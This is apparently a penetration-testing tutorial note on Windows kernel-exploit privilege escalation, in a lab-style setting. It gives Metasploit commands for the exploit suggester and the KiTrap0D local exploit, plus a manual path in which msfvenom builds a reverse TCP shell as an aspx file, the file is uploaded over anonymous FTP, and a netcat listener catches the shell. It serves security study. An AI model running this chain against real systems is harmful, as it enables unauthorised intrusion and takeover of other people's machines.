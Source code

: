 ### Kernel Exploit Escalation Path

The Kernel is the program that controls everything in the system.  It runs between the applications and the hardware.  It acts like a translator.  It takes instructions from the applications and turns them into instruction sets for the hardware.

When getting the sysinfo information, you can look for the build number and version and then use that info to look up any kernel exploits for that build and version.

https://github.com/SecWiki/windows-kernel-exploits   - this is a good github to use to look up kernel exploits.

#### METASPLOIT

```
meterpreter > run post/multi/recon/local_exploit_suggester
meterpreter > background
msf5 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d
msf5 exploit(windows/local/ms10_015_kitrap0d) > options
msf5 exploit(windows/local/ms10_015_kitrap0d) > set session 9
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lhost tun0
msf5 exploit(windows/local/ms10_015_kitrap0d) > set lport 5555
msf5 exploit(windows/local/ms10_015_kitrap0d) > run
```
In here, we run the exploit suggester inside the meterpreter session then background that session after we get the output.  Not the session number as you will use it in the next couple steps.  Once you get that info and are out of the meterpreter session, you can go through the list and try the exploits kicked out from the suggester.  Set your session to the session you had background a second ago.  Set the rest of your options and give it a go.  
If it doesn't work on the first run, check your options again and make sure nothing defaulted back and try it again.  If the first one doesn't work, try the next one.

This is the metaspoit way, using the meterpreter and all that.

Other info:  
Kitrap0d Information - https://seclists.org/fulldisclosure/2010/Jan/341

#### MANUALLY

Going to use `msfvenom` to craft the exploit. 

`root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f aspx > manual.aspx`

Here we run msf venom with the -p for payload.  Then we give it the payload we want to create (a reverse tcp shell here).  Then we set our `LHOST` and `LPORT` to what our local host and the port we're listening on.  We then use `-f` to specify the filetype, aspx in this case.  We then output `>` that into the file `manual.aspx`

Once we have that created we can start our netcat listener and upload the file via our connection means, this one we had FTP.

FTP Commands  
```
ftp 10.10.10.5
anonymous
put manual.aspx
```


Netcat Command  
`nc -nvlp 4444`

Then we use our browser or whatever we need to use in order to get the page to launch.  This will give us our shell.

Once we have the shell we can then get the information needed to run the exploit suggestor (from sysinfo) and then use that info to work our way through the different exploits and try to find one that works.

Make sure you read about the different exploits that you try.  Some have other options that are needed.

A good starting place for exploits on a win machine is the Temp folder.  Usually every user has access to that folder.



Other info
MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
